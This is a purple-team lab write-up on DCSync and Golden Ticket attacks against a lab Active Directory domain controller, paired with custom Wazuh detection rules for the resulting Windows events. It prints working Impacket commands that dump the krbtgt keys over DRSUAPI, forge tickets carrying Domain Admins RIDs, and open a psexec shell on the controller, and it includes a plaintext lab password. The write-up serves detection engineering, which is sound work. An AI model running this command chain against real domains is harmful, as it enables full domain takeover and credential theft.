<!-- scope: operator-owned host, single operator, no distribution -->
<!-- class: active directory kerberos golden ticket and dcsync detection -->
<!-- boundary: operator lab validation only -->

# Lab 13 — Golden Ticket (TGT Forgery) & DCSync Detection Lab

Part of the **Core Detection Labs: Kerberos Attack & Defense Series** — an end-to-end purple-team investigation: Active Directory directory replication abuse (DCSync), offline Ticket Granting Ticket (TGT) forgery using the `krbtgt` master encryption key, Kerberos ticket injection, unauthorized administrative lateral movement, and custom **Wazuh 4.14.5** SIEM detection engineering.

---

## Executive Summary & Attack Matrix

In enterprise Active Directory environments, the entire trust architecture of Kerberos authentication relies on a single foundational secret: the **Domain `krbtgt` Account**. If an adversary compromises directory replication permissions (via DCSync) or extracts the `NTDS.dit` database to harvest the password hash or AES-256 master key of the `krbtgt` account, they gain absolute and persistent control over the entire Active Directory forest.

In this lab, we executed a full **DCSync** attack from Kali Linux (`192.168.100.50`) against our Windows Server 2022 Domain Controller (`WIN-SOCLAB.soclab.local` / `192.168.100.146`), constructed offline ASN.1 DER structures to forge a **Golden Ticket (TGT)**, and achieved an interactive `nt authority\system` shell using `impacket-psexec`. In parallel, we captured the raw Windows Security Event logs (Event IDs 4662, 4769, 4672, 4624) within Wazuh SIEM and engineered three high-fidelity, production-grade custom detection rules (**Rules 100123, 100124, 100125**) to detect unauthorized directory replication, anomalous service ticket requests, and injected administrative logon privileges.

| # | Attack Stage | Windows Event ID | Wazuh Rule ID | Rule Level | Technical Telemetry Signature |
|---|---|---|---|---|---|
| **0** | **Privileged Account Setup** | **4720 / 4728** | **100109 / 100105** | **Level 10 / 10** | High-privilege account creation (`svc-syncadmin`) outside business hours & addition to `Domain Admins` |
| **1** | **DCSync Replication** | **4662** | **100123** | **Level 13** | Directory Service replication request (`AccessMask: 0x100`) by non-machine account |
| **2** | **Ticket Forgery** | N/A (Offline) | N/A | N/A | Offline ASN.1 DER PAC construction using compromised `krbtgt` AES-256 master key |
| **3** | **TGS Service Ticket Anomaly** | **4769** | **100124** | **Level 11** | Kerberos service ticket requested with forged TGT (Zero preceding Event 4768 on DC) |
| **4** | **Administrative Logon & Privileges** | **4672 / 4624** | **100125** | **Level 12** | Special privileges assigned (`SeDebugPrivilege`, etc.) during network logon (Type 3) via injected PAC |
| **5** | **Administrative Share Execution** | **5140** | **60107** | **Level 5** | Network share accessed (`ADMIN$`, `C$`, `IPC$`) for remote service installation |

---

## Architectural Mechanics: Why Active Directory Trusts a Lie

### 1. The Stateless KDC Paradox
In standard Kerberos authentication, when a user requests access to an enterprise network resource (such as a file share, database, or domain service), the Domain Controller (acting as the Key Distribution Center, or KDC) evaluates their **Ticket Granting Ticket (TGT)**.

Active Directory exhibits a fundamental architectural characteristic: **The KDC is completely STATELESS when validating TGTs.**
- The KDC does **NOT** query its Active Directory database (`NTDS.dit`) to verify whether the session was legitimately initiated or whether the account's group memberships have changed since ticket issuance.
- The KDC performs a purely mathematical cryptographic check: **Is the TGT encrypted and digitally signed with the secret key of the domain's `krbtgt` account?**
- If the signature validates, the KDC decrypts the embedded **Privilege Attribute Certificate (PAC)** and implicitly trusts whatever Group SIDs (e.g., Domain Admins RID `512`, Schema Admins RID `518`, Enterprise Admins RID `519`) are contained within the ticket structure.

```text
Normal Authentication Workflow:
[User / Workstation] ──(AS-REQ)──► [KDC: NTDS.dit Verification] ──(AS-REP: Genuine TGT)──► [User Cache]

Golden Ticket Attack Workflow:
[Attacker with krbtgt Key] ──(Offline PAC Crafting)──► [Forged TGT: 10-Year Validity / RID 500 / 512]
                                                                  │
[Attacker] ──(TGS-REQ + Forged TGT)───────────────────────────────┘
   │
   ▼
[KDC] ── Decrypts with genuine krbtgt key ──► "Signature Valid!" ──► Issues Genuine Service Ticket!
```

### 2. The DCSync Mechanism (MS-DRSR / DRSUAPI)
To forge a Golden Ticket, an adversary must acquire the NTLM hash or AES master key of the `krbtgt` account. Historically, this required direct access to extract the physical `NTDS.dit` database from a Domain Controller.

**DCSync** transformed this attack vector into an entirely remote RPC operation. By abusing the Microsoft Directory Replication Service Remote Protocol (**MS-DRSR / DRSUAPI**), an adversary possessing directory replication rights (`Replicating Directory Changes` and `Replicating Directory Changes All`) impersonates a peer Domain Controller. The adversary transmits an RPC synchronization request: *"I am a replication partner; replicate the current account credentials for `krbtgt`."* The target Domain Controller streams the requested credentials back over RPC (Port 135 / dynamic RPC ports) without executing a single suspicious binary or touching LSASS memory on the Domain Controller.

---

## Network Topology & Lab Environment

```text
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                              GOLDEN TICKET & DCSYNC LAB TOPOLOGY                       │
├────────────────────────────────────────────────────────────────────────────────────────┤
│                                                                                        │
│   [ Kali Linux 2026.x ]                                  [ Windows Server 2022 DC ]    │
│   IP: 192.168.100.50                                     IP: 192.168.100.146           │
│   Role: Adversary & SIEM Server                          Host: WIN-SOCLAB.soclab.local │
│   • Wazuh Manager / Indexer / Dashboard                  • Active Directory Services   │
│   • Impacket (secretsdump, ticketer, psexec)             • Kerberos KDC (Port 88)      │
│   • Kerberos Client (KRB5CCNAME)                         • RPC (Port 135) / SMB (445)  │
│                                                          • Wazuh Agent 001 Active      │
│                                                                                        │
│   [ Windows Analyst Workstation ]                                                      │
│   IP: 192.168.100.27                                                                   │
│   Role: SOC Analyst Dashboard Access (HTTPS) / Active Directory Remote Admin           │
└────────────────────────────────────────────────────────────────────────────────────────┘
```

---

## Chronological Walkthrough & Evidence Analysis

The complete laboratory lifecycle comprises 40 sequential screenshots documenting the progression from initial staging and credential harvesting to offline forgery, remote takeover, and telemetry correlation.

---

### Phase 1: High-Privilege Account Creation & Elevation (Red Team Setup)

To execute a DCSync attack, an account requires specific Directory Replication privileges (`Replicating Directory Changes` and `Replicating Directory Changes All`). During staging, a dedicated service account (`svc-syncadmin`) was created on the Domain Controller and added to the `Domain Admins` group, which inherits these permissions by default.

```powershell
# Create dedicated replication service account on Domain Controller
New-ADUser -Name "svc-syncadmin" -SamAccountName "svc-syncadmin" -AccountPassword (ConvertTo-SecureString "<REDACTED_PASSWORD>" -AsPlainText -Force) -Enabled $true

# Elevate account to Domain Admins
Add-ADGroupMember -Identity "Domain Admins" -Members "svc-syncadmin"
```


*Figure 1.1: DC PowerShell execution creating `svc-syncadmin` and assigning `Domain Admins` group membership.*

#### Blue Team SIEM Detection (Account Lifecycle Monitoring)
Upon creation and elevation, Wazuh SIEM generated two correlated alerts:
1. **Rule 100109 (Level 10):** Account created outside business hours (Event ID 4720).
2. **Rule 100105 (Level 10):** Account added to privileged group (Event ID 4728).


*Figure 1.2: Wazuh Discover dashboard displaying Rule 100109 alert for off-hours account creation.*


*Figure 1.3: Wazuh Rule 100105 alert triggering at Level 10 upon adding `svc-syncadmin` to `Domain Admins`.*

Event 4728 document details and Windows security message confirm the targeted security-enabled global group and member SID:


*Figure 1.4: Event 4728 raw document details showing `MemberSid` and `TargetUserName` (`svc-syncadmin`).*


*Figure 1.5: Windows Security event message confirming: "A member was added to a security-enabled global group" (`Domain Admins`).*

---

### Phase 2: DCSync Exploitation via DRSUAPI & Master Key Dumping

From Kali Linux (`192.168.100.50`), Impacket's `secretsdump.py` was invoked with the `-just-dc-user krbtgt` switch to retrieve the master Kerberos account secrets over RPC:

```bash
# Execute DCSync targeting krbtgt account credentials
impacket-secretsdump -just-dc-user krbtgt soclab.local/svc-syncadmin:SyncOpsPassword2026!@192.168.100.146
```


*Figure 2.1: Kali terminal output demonstrating DRSUAPI replication extracting the `krbtgt` NTLM hash and AES-256, AES-128, and DES master encryption keys (sensitive credentials and hashes naturally blurred).*

#### Telemetry Analysis of DCSync Network Logon (Event 4624)
When initiating the DCSync RPC binding on Port 135, Kali authenticates against the DC, generating a **Network Logon (Logon Type 3 — Event ID 4624)**. In our SIEM, this immediately matched **Rule 100115 (Off-Hours Logon)**:


*Figure 2.2: Rule 100115 alert firing at Level 12 for `svc-syncadmin` network logon during off-hours.*


*Figure 2.3: Event 4624 document details confirming `LogonType: 3` originating from Kali IP `192.168.100.50`.*


*Figure 2.4: Windows Event 4624 header confirming successful authentication.*


*Figure 2.5: Windows Security event message confirming `TargetUserName: svc-syncadmin`.*


*Figure 2.6: Logon Type 3 details showing token elevation (`ElevatedToken: Yes`).*


*Figure 2.7: Target domain parameters verifying authentication within `SOCLAB`.*


*Figure 2.8: Authentication package details verifying `AuthenticationPackageName: NTLM` / `NTLM V2`.*

---

### Phase 3: Domain SID Enumeration & Initial Offline Ticket Forgery

Forging a valid Golden Ticket requires two key domain values:
1. The **Domain SID** (e.g., `S-1-5-21-3965529547-1709915012-255161553`).
2. The **`krbtgt` account hash or AES-256 master key**.

On Kali, `lookupsid.py` was executed to enumerate the Domain SID and account RID space:

```bash
# Enumerate Domain SID and account RIDs
impacket-lookupsid soclab.local/svc-syncadmin:SyncOpsPassword2026!@192.168.100.146
```


*Figure 3.1: Impacket lookupsid output confirming Domain SID `S-1-5-21-3965529547-1709915012-255161553`.*

#### Offline Ticket Construction (Ticketer.py)
Using the extracted Domain SID and `krbtgt` hash, `impacket-ticketer` was invoked to forge an initial Golden Ticket for a non-existent account identity (`GhostAdmin`):

```bash
# Forge initial Golden Ticket for GhostAdmin
impacket-ticketer -nthash <KRBTGT_NTLM_HASH> \
  -domain-sid S-1-5-21-3965529547-1709915012-255161553 \
  -domain soclab.local \
  -user GhostAdmin \
  -user-id 500 \
  -groups 512,513,518,519 \
  GhostAdmin.ccache
```


*Figure 3.2: `impacket-ticketer` generating ASN.1 DER ticket structure with RID 500 and Group SIDs 512, 513, 518, 519 (hash blurred).*

#### Ticket Inspection and Lateral Takeover
After setting `KRB5CCNAME`, `klist` was utilized to inspect the cache, followed by `impacket-psexec` to execute administrative commands over SMB:

```bash
# Load ticket into Kerberos cache
export KRB5CCNAME=/home/kali/administrator.ccache

# Inspect Kerberos credentials cache
klist

# Connect to Domain Controller via SMB using Kerberos authentication
impacket-psexec -k -no-pass soclab.local/administrator@WIN-SOCLAB.soclab.local
```


*Figure 3.3: `impacket-psexec` establishing an interactive administrative command shell on `WIN-SOCLAB.soclab.local` using the forged ticket.*


*Figure 3.4: Linux `klist` output verifying a 10-year validity window (`11/17/2026` to `11/15/2036`) for `krbtgt/SOCLAB.LOCAL`.*

#### Telemetry for Initial Golden Ticket Logon
Wazuh captured the resulting Kerberos network authentication under Rule 100115:


*Figure 3.5: Wazuh Threat Hunting dashboard displaying off-hours Kerberos logon events.*


*Figure 3.6: Event 4624 document details confirming `AuthenticationPackageName: Kerberos`.*


*Figure 3.7: Event 4624 message confirming elevated token creation via Kerberos.*


*Figure 3.8: Wazuh built-in Rule 60106 baseline alert firing on successful Windows authentication.*

---

### Phase 4: Standard User Escalation & Modern Windows Server 2022 PAC Validation

To simulate an authentic enterprise attack path, we staged an unprivileged standard user (`normaluser01`, RID `1153`). This test validated how an unprivileged identity can be elevated into domain administration using a Golden Ticket, and evaluated how Windows Server 2022 KDC validates the Privilege Attribute Certificate (PAC).

```powershell
# Create unprivileged standard user on Domain Controller
New-ADUser -Name "normaluser01" -SamAccountName "normaluser01" -AccountPassword (ConvertTo-SecureString "<REDACTED_PASSWORD>" -AsPlainText -Force) -Enabled $true

# Extract object RID
(Get-ADUser -Identity "normaluser01").SID
```


*Figure 4.1: DC PowerShell creating standard user `normaluser01` and querying its object SID (RID `1153`).*

Full directory replication was re-executed from Kali to verify target account hashes and master keys:


*Figure 4.2: Secretsdump output verifying `krbtgt` AES-256 master key extraction (credentials and hashes naturally blurred).*

#### DCSync Detection Firing (Rule 100123 — Event 4662)
When the DCSync RPC synchronization request reached the Domain Controller, Windows Security logged **Event ID 4662**. Custom Wazuh **Rule 100123** immediately matched this activity, triggering a **Level 13 (Critical Alert)**:


*Figure 4.3: Wazuh Rule 100123 firing at Level 13: "Active Directory: Potential DCSync Attack - Directory replication extended rights requested by non-DC account".*


*Figure 4.4: Event 4662 document details showing `AccessMask: 0x100` and `Properties` containing the DRSUAPI replication GUID (`1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`).*

Correlated account creation and network authentication telemetry:


*Figure 4.5: Rule 100109 alert logging `normaluser01` account creation.*


*Figure 4.6: Rule 100107 alert firing on high-value network logon.*


*Figure 4.7: Wazuh Discover dashboard timeline demonstrating Rule 100123 firing at Level 13.*


*Figure 4.8: Expanded alert hit list confirming repeated DCSync replication attempts.*

---

### Phase 5: Clock Skew Resync, Ticket Injection & Full Remote Takeover

Because Kerberos authentication relies on precise timestamp validation (with an allowable default clock skew of 5 minutes / 300 seconds), time drift between the attacker host and the Domain Controller will trigger error code `KRB_AP_ERR_SKEW` (`0x25`).

Kali's clock was synchronized against the Domain Controller via NTP, followed by forging a dedicated AES-256 encrypted Golden Ticket for `normaluser01` embedding RID `1153` and Domain Admins RID `512`:

```bash
# Resync time with Domain Controller
sudo ntpdate -u 192.168.100.146

# Forge Golden Ticket using krbtgt AES-256 key for normaluser01
impacket-ticketer -aesKey <KRBTGT_AES256_KEY> \
  -domain-sid S-1-5-21-3965529547-1709915012-255161553 \
  -domain soclab.local \
  -user normaluser01 \
  -user-id 1153 \
  -groups 512,513,518,519 \
  normaluser01.ccache
```


*Figure 5.1: `impacket-ticketer` forging Golden Ticket for `normaluser01` injecting Domain Admins RID 512 with AES-256 master key (key argument blurred).*

Verification of administrative group membership within the remote shell:


*Figure 5.2: Remote command prompt confirming execution under `BUILTIN\Administrators`.*

